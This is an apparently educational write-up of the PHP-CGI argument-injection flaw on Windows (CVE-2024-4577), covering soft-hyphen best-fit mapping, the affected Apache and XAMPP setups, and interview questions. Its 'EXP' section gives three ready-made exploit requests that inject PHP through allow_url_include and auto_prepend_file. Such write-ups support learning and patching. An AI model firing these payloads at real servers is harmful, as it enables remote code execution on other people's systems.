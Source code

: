 # PHP CGI RCE (CVE-2024-4577)

The PHP programming language, during its design, neglected the **Best-Fit character encoding** conversion feature inherent in Windows operating systems. This oversight allows unauthenticated attackers to bypass protections from the old CVE-2012-1823 by using specific character sequences to perform attacks such as parameter injection, subsequently executing arbitrary code on remote PHP servers.

**Scope of Impact** This vulnerability affects **all PHP versions installed on Windows operating systems.** For detailed information, refer to the table below:

* PHP 8.3 < 8.3.8
* PHP 8.2 < 8.2.20
* PHP 8.1 < 8.1.29

## How to Determine if You Are Vulnerable to Attack?&#x20;

For common setups involving the Apache HTTP Server combined with PHP, website administrators can confirm whether their server is vulnerable using the two methods listed in this article. Notably, Scenario Two is also the default setting during the installation of XAMPP for Windows, implying that all versions of XAMPP for Windows are inherently affected by this vulnerability.

At the time of writing this article, it has been verified that unauthorized attackers can execute arbitrary code on remote servers running Windows operating systems in the following language environments:

* Traditional Chinese (Code page 950)
* Simplified Chinese (Code page 936)
* Japanese (Code page 932)

For other Windows operating systems operating in English, Korean, and Western European languages, due to the extensive use of PHP and the inability to comprehensively list and rule out all exploitable scenarios, it is still recommended that users thoroughly inventory their assets, verify usage scenarios, and update PHP to the latest version to ensure maximum security.

## Evil Soft Hyphen

A soft hyphen (represented in HTML as `&shy;`) is an invisible character used to indicate an optional hyphenation point within a line of text. In web development, the soft hyphen is often used in long words or URLs to allow for automatic line breaks at the edge of the display without altering the actual content or meaning of the text.

## What is Common gateway Interface?

The Common Gateway Interface (CGI) is a standard protocol that defines how web servers can interact with **executable programs installed on a server that generate web pages dynamically**. Such programs are called CGI scripts; they can be written in any programming language, including PHP.

In the context of PHP and web development, **CGI acts as a bridge** between the PHP script and the web server, allowing the server to pass data, like form inputs or request details, to the PHP script. The PHP script processes this data and sends back the generated HTML (or other data types) to the server, which then sends it to the client's browser.

Example:

&#x20;querystrings are parsed and passed to the PHP interpreter on the command line - a request such as as [`http://host/cgi.php?foo=bar`](http://host/cgi.php?foo=bar\&ref=labs.watchtowr.com) might be executed as `php.exe -cgi.php foo=bar`

## So what?

Here are two invocations of php.exe, one malicious and one benign. Can you spot the difference?

&#x20;![](<../.gitbook/assets/image (7).png>)

one of them is soft hyphen(0xAD) and one of them is "dash"(0x2D)

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

While they both appear the same to you and me, they have vastly different meanings to the OS.

## Best fit mapping

PHP will apply what’s known as a ‘best fit’ mapping, and helpfully assume that, when the user entered a soft hyphen, they actually **intended to type a **_**real**_** hyphen**, and interpret it as such. Herein lies our vulnerability - if we supply a CGI handler with a **soft hyphen (0xAD)**, the CGI handler won’t feel the need to escape it, and will pass it to PHP. **PHP, however, will interpret it as if it were a **_**real**_** hyphen,** which allows an attacker to sneak extra command line arguments, which begin with hyphens, into the PHP process.

## Scenario One: Setting PHP to run under CGI mode In the Apache Httpd configuration file

when HTTP requests are directed to the PHP-CGI executable using the Action directive, this setup is affected by the vulnerability. Common configurations include, but are not limited to:

```
AddHandler cgi-script .php
Action cgi-script "/cgi-bin/php-cgi.exe"
```

or

```
<FilesMatch "\.php$">
    SetHandler application/x-httpd-php-cgi
</FilesMatch>

Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"
```

## Scenario Two: Exposing the PHP executable to the public (Default installation setting in XAMPP)

Even if PHP is not configured to run under CGI mode, simply exposing the PHP executable in the CGI directory also subjects it to this vulnerability. Common situations include, but are not limited to:

* Copying php.exe or php-cgi.exe to the /cgi-bin/ directory.
* Exposing the PHP installation directory externally through ScriptAlias, such as:

```
ScriptAlias /php-cgi/ "C:/xampp/php/"
```

## Different type of EXP

### EXP 1

SSRF

{% code overflow="wrap" %}
```
http://PhpVulnEnv/php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+-d+allow_url_include%3d1+-d+auto_prepend_file%3d"data:XCANWIN/XCANWIN;,PD9waHAgZGllKCJUZSIuInNUIik7Pz4g"
```
{% endcode %}

### EXP 2

```
POST /php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: PhpVulnEnv

<?php phpinfo();?>
```

### EXP 3

```
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: PhpVulnEnv
REDIRECT-STATUS: XCANWIN

<?php phpinfo();?>
```

## Demo

{% file src="../.gitbook/assets/CVE Demo (2).mp4" %}
Demo Video
{% endfile %}

## Interview Question

**1) Why is XAMPP being infected the most in this CVE?**

**2) What is best fit mapping how it cause this Vulnerability?**

**3) Which setting you have to modify to fix this issue?**

## Author

[Ikonw](https://github.com/Ik0nw)

## Reference

{% embed url="https://mp.weixin.qq.com/mp/wappoc_appmsgcaptcha?poc_token=HFj3amajFr1bUBstRri7lGhHA70Gus9G7sywHr1p&target_url=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2F93TuxZ4AVqHXcnJw3M4hRg" %}

{% embed url="https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/" %}

{% embed url="https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability/" %}

